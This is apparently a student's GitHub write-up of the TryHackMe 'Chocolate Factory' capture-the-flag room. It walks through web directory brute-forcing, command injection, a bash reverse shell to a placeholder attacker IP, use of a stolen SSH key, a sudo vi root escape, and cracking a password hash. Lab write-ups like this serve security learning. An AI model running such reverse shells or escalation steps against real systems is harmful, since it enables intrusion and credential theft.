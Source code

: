
## Description
This <a href="https://tryhackme.com/room/chocolatefactory">challenge</a> is provided by <a href="https://tryhackme.com">https://tryhackme.com</a>
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119178388-40d27480-baa0-11eb-993b-8562f0efcd54.png"/>
</p>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
 <ul>
<li><image src="https://user-images.githubusercontent.com/78603128/119169950-2fd03600-ba95-11eb-85d3-5ccf91320077.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119169974-352d8080-ba95-11eb-80b4-15fb7ded910d.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170005-3ced2500-ba95-11eb-9a42-657073094293.png"/></li>
<li><image src="https://user-images.githubusercontent.com/78603128/119170013-41194280-ba95-11eb-8361-04b5553a7d0d.png"/></li>
</ul>
</p>
 
## Hands on 1

First , we slap the ip into our browser to check if port 80(common web server port) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

**"home.php"**

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

**"validate.php"** , look like input validation goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  `uname -a` command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
```
 


remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as `www-data` !

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>
</p>

now we search for the key , `key_rey_key` seems sus and by trying strings command we found the key

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>
</p>

and we are lucky to found the user credentials in plain text inside the `validate.php` code
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>
</p>

switch user to charlie and we got the flag but .. you cant switch user here..
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>
</p>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>
</p>
  
Copy content of **teleport** and paste into your local empty file , in my case i saved it into `rsa_key` file
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170350-b4bb4f80-ba95-11eb-8961-b6b012f61dca.png"/>
</p>

Remember to chmod 700 on the saved file 
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119170563-006df900-ba96-11eb-9a69-0ce6ca76b099.png"/>
</p>

else you get error like this
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172491-9d319600-ba98-11eb-842f-6a0191b2e1e0.png"/>
</p>

After successfully login , you are now `charlie`
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172598-bd615500-ba98-11eb-9ae0-21a7e14e2af2.png"/>
 </p>
 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119172772-ea156c80-ba98-11eb-9d69-1bde7535386f.png"/>

</p>
And we got the user flag !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173016-352f7f80-ba99-11eb-8cdd-19c7f06259af.png"/>
 </p>
 
 now the root flag ! 
 type  `sudo -l` to check sudo permission for charlie
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173732-3b722b80-ba9a-11eb-8dca-d8db75cd78e7.png"/>
</p>

by checking at <a href="https://gtfobins.github.io">GTFO bins</a> we found that vi can be exploited
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119173881-6fe5e780-ba9a-11eb-9760-a12f4680167b.png"/>
 
 ```
 sudo vi -c ':!/bin/sh' /dev/null
 ```
</p>

We are now ROOT YEAH BOI and we found one python file (probably flag)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174264-f1d61080-ba9a-11eb-8277-ab7fb5d64380.png"/>
</p>

 Enter the key we found earlier and we got the root flag !
  <p align="center">
 <image src="https://user-images.githubusercontent.com/78603128/119174570-51ccb700-ba9b-11eb-94de-4e24d661a787.png"/>
 </p>
   <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174584-56916b00-ba9b-11eb-83ee-b3ab5c78817f.png"/>
 </p>

## Hands on 2
Alternatively , to get charlie's password to log into the web browser we can use nmap/rustsan to scan for network open ports revealed the `` ftp service `` exists and contain one image (**gum_room.jpg**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119174953-ce5f9580-ba9b-11eb-96fa-28042a4b4c6c.png"/>
</p>

we can login as ``Anonymous`` and get the image file
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175296-3ada9480-ba9c-11eb-973a-9963a924335d.png"/>
</p>

 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119175751-d0762400-ba9c-11eb-8734-d6c744484b69.png"/>
</p>

look like ordinary picture but there can be something hidden inside pictures >:D (**Steganography**)
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176018-26e36280-ba9d-11eb-9392-fbed6f605106.png"/>
</p>

Using ``steghide`` we found a text file **(b64.txt)** with base 64 string 
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176294-7f1a6480-ba9d-11eb-97b9-b88e506e0cef.png"/>
</p>

Decrypt it and we got all user leaked ``etc/passwd``
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176446-b557e400-ba9d-11eb-8263-1c8284cc46ac.png"/>
</p>
including charlie's
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176620-e801dc80-ba9d-11eb-9a52-35f06cef4585.png"/>
</p>

paste the hash into a empty file (in my case : charlieCreds) and put it at ``john the ripper`` and let john do the job !
 <p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119176966-46c75600-ba9e-11eb-9f91-42445e2e2123.png"/>
</p>

then paste the pass and login charlie on the website
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119177393-da008b80-ba9e-11eb-9567-da6126fd8d24.png"/>
</p>












